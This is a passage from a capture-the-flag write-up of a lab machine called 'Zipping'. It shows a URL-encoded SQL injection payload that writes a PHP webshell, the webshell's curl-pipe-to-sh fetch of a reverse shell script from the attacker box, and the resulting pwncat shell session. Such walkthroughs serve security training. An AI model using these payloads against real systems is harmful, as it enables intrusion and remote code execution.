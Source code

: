 ![sqli-rce-poc](./images/sqli-rce-poc.png "SQLi to Code execution PoC")

Now, with the ability to execute code, I use URL-encoded version of this payload to fetch a script containing a reverse shell payload from my attack box and execute it, ultimately obtaining a shell.

```bash
%0A';select '<?php system("curl http://10.10.14.42/shell_payload.sh | sh");?>' into outfile '/dev/shm/shell.php' #2
```



The process involves invoking the file at `/dev/shm/shell.php`, which retrieves the hosted `shell_payload.sh` file from my attack box and executes it, giving a shell.

```bash
http zipping.htb/shop/index.php page==/dev/shm/shell
```

```bash
> pc -lp 9005
[23:32:21] Welcome to pwncat 🐈!                                                                    __main__.py:164
[23:48:29] received connection from 10.129.66.225:45182                                                  bind.py:84
[23:48:30] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash                               manager.py:957
[23:48:31] 10.129.66.225:45182: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) rektsu@zipping:/$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
```

## Unintended Foothold (Patched)

### Null Byte Injection

I decided to fetch the source code of the upload functionality to analyze it. Given that the application provides a link to view the decompressed file, uploading a PHP file within the archive could potentially allow the execution of malicious code.

